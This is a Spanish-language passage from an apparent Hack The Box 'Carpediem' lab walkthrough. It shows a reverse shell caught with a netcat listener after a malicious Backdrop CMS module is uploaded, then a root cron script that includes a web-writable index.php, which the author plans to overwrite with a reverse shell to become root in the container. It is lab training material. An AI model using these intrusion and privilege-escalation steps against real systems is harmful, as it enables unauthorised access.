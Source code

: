 > Esta plantilla la puedes encontrar en mi repositorio [https://github.com/E1P0TR0](https://github.com/E1P0TR0/CVE-Machines_htb/tree/main/Auto-tools_Carpediem/module_www-data.2)
{: .prompt-info}

Con esto listo, solo subes el comprimido, lo buscas en la ruta de _/uploads_, lo ejecutas y ya tenemos acceso al aquipo `172.17.0.2 (backdrop.carpediem.htb)`:

```console
❯ nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.11.167:52002.
bash: cannot set terminal process group (280): Inappropriate ioctl for device
bash: no job control in this shell
www-data@90c7f522b842:/var/www/html/backdrop/modules/rce$ whoami
whoami
www-data
www-data@90c7f522b842:/var/www/html/backdrop/modules/rce$ hostname
hostname
90c7f522b842
www-data@90c7f522b842:/var/www/html/backdrop/modules/rce$ hostname -I
hostname -I
172.17.0.2
```

Seguimos en un contenedor como usuario `www-data`. Haciendo un reconocimiento del sistema listamos procesos que se ejecuten como `root` y encontramos el script `/opt/hearbeat.sh`:

```bash
#!/bin/bash
#Run a site availability check every 10 seconds via cron
checksum=($(/usr/bin/md5sum /var/www/html/backdrop/core/scripts/backdrop.sh))
if [[ $checksum != "70a121c0202a33567101e2330c069b34" ]]; then
        exit
fi
status=$(php /var/www/html/backdrop/core/scripts/backdrop.sh --root /var/www/html/backdrop https://localhost)
grep "Welcome to backdrop.carpediem.htb!" "$status"
if [[ "$?" != 0 ]]; then
        #something went wrong.  restoring from backup.
        cp /root/index.php /var/www/html/backdrop/index.php
fi

```

Tenemos una tarea **Cron** que se ejecutara cada 10 segundos donde ejecutará el script `backdrop.sh` del servicio web. Investigando sobre los archivos del CMS **Backdrop** encontramos que sirve **ejecutar scripts del CMS Backdrop** que se encuentren en la ruta raiz de tu web.

Examinando el código en `php` observamos que se incluye el archivo `index.php` como variable por defecto, y si existe, usará el término `include` (que añade archivo php al archivo actual y lo ejecuta) y lo ejecutará. Ya que somo el usuario `www-data` y tenemos permisos para modificar archivos de la web, entonces modificamos ese archivo con código malicioso **(Reverse shell)** y conseguimos ser el usuario `root` del contenedor:
